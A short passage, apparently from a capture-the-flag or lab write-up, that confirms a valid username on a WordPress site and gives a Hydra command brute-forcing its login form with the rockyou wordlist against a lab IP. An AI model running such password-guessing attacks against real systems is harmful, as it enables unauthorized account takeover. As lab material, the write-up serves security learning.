 This confirms a valid username. 


![](images/http_login.png)

Investigating the HTTP request that was sent, I constructed a Hydra command.

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.11.236 http-post-form "/blog/wp-login.php:log=^USER^&pwd=^PASS^:incorrect"`

![](images/hydra_wp.png)
